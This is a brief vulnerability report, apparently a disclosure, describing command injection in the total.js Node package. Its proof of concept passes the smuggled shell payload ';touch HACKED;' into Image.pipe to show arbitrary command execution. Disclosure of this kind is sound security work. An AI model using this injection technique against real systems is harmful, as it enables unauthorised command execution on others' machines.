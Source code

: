 # Description

Command Injection in total.js

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
const total = require('total.js');
let image = Image.load("");
let payload = ";touch HACKED;";
image.pipe(null,payload);
```

2. Execute the following commands in terminal:

```
npm i total.js # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution.
